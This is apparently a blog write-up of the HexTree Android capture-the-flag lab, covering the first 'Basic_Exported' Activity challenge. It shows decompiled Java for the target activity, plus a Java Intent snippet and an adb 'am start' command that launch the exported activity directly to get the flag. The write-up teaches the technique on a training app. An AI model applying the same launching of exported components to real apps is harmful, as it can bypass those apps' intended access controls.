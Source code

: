 ```yaml
---
title: Hextree Activities Challanges
date: 2025-06-20 20:14 +0300
categories: [Penetration Testing]
tags: [Android Challenges, Activity, Penetration Testing, Hextree]
author: 0xAokiji
---
```


# **Introduction**

In this write-up, I’m sharing how I approached and solved the Android app challenges from the [HexTree Android Penetration Testing Lab](https://app.hextree.io/map). These challenges are made to help you think like a real Android penetration tester, and they cover everything from simple static analysis to more advanced dynamic stuff.

I mainly focused on understanding how the apps work, finding weak points, and then trying to exploit them using different tools and techniques.

Here are some of the tools I used along the way:

- **JADX**, **APKTool** – for looking into the app’s code
- **Frida**, **ADB** – for playing with the app at runtime
- **Android Studio**, **logcat** – for debugging and seeing what's going on behind the scenes

In each challenge, I’ll give

- A quick overview of what the app does
- The vulnerability or trick I found
- How I exploited it
- And finally, the flag or result I got

### In the next part, I’ll be showing the challenges related to **Activities.**

![Custom Domain](/assets/img/2025-06-20-hextree-activities-challenges/image.png){high="900" : width="500"}
_My Github Pages Custom Domain page_
---

## Challenge 1: Basic_Exported

### Code Snippet (From Decompiled Source)

```java
public class Flag1Activity extends AppCompactActivity {
    public Flag1Activity() {
    }
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        this.f.addTag("basic-main-activity-avd2");
        success(this);
    }
}
```

- Launch the `Flag1Activity` directly to trigger the `success()` method and capture the flag.

## Solution

### Using Java Code (within another Activity):

```java
Intent intent = new Intent();
ComponentName componentName = new ComponentName(
    "io.hextree.attacksurface",
    "io.hextree.attacksurface.activities.Flag1Activity"
);
intent.setComponent(componentName);
startActivity(intent);
```

![image.png](attachment:99185127-5771-4ff9-9b30-55c4add1911b:image.png)

## Using ADB (recommended for quick testing):

- **`adb shell am start -n io.hextree.attacksurface/.activities.Flag1Activity`**